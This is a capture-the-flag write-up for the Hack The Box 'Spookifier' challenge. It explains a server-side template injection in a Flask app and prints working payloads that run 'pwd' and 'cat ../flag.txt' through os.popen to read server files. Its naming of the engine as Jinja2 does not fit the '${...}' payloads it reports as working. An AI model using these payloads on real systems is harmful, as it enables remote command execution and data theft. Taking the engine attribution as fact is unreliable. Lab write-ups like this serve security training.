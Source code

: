 ```yaml
---
clayout: ctf
title: Spookifer
date: 2024-10-19
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Spookifier
      link: https://app.hackthebox.com/challenges/413
      thumbnail: /ctf/hack-the-box/challenges/web/spookifier/spookifier.png
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/413
          thumbnail: /ctf/hack-the-box/challenges/web/spookifier/pwned.png
---
```


## Challenge Description

In this challenge, we need to exploit a web application called **Spookifier**. The application is a Single Page
Application (SPA), featuring a form in the center of the page where users can submit their new Halloween name. After
submitting the form with the input `Dracula`, the application displays the result with different fonts, as shown below:

![Spookifier result of Dracula input](/ctf/hack-the-box/challenges/web/spookifier/spookifier-result-dracula.png)

## Code Review

Upon inspecting the source code of the application, we discovered that the backend is built using **Flask** in Python.
When a user submits the form, a GET request is sent to the root endpoint (`/`) with the submitted Halloween name passed
as a query parameter (`text`).

The server processes this input by calling a function named `spookify`, which then passes the input to another function
responsible for generating the formatted result. The function `generate_render` generates the final output, and its
implementation is as follows:

```python
def generate_render(converted_fonts):
    result = '''
        <tr>
            <td>{0}</td>
        </tr>
        
        <tr>
            <td>{1}</td>
        </tr>
        
        <tr>
            <td>{2}</td>
        </tr>
        
        <tr>
            <td>{3}</td>
        </tr>
    '''.format(*converted_fonts)
    
    return Template(result).render()
```

The `generate_render` function uses the `Template` class from the **Jinja2** templating engine to render the final
output. This indicates a potential vulnerability, as improper input sanitization can lead to a **Server-Side Template
Injection (SSTI)** attack.

## Proof of Concept (PoC)

To verify the SSTI vulnerability, we can inject a basic payload like `${7*7}` into the `text` parameter. If the
application is vulnerable, it will evaluate the expression and return the result of the calculation.

After injecting the payload, the server responded with the following output:

![Spookifier - POC](/ctf/hack-the-box/challenges/web/spookifier/spookifier-poc-ssti.png)

The result `49` confirms that the application is vulnerable to SSTI.

## Exploitation

Since we have access to the source code, we know that the flag is stored in a file named `flag.txt`. To exploit the SSTI
vulnerability and read the flag, we first need to determine the current working directory by executing the `pwd`
command. We can use the following payload:

```python
${__import__('os').popen('pwd').read()}
```

The output revealed that the current directory is `/app`, meaning we need to go up one level to access the `flag.txt`
file. The following payload reads the content of the file:

```python
${__import__('os').popen('cat ../flag.txt').read()}
```

The result shows the flag:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We successfully retrieved the flag! You can now try this on the actual Hack The Box (HTB) server to obtain the real
flag.

## References

- [HackTricks - Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection)
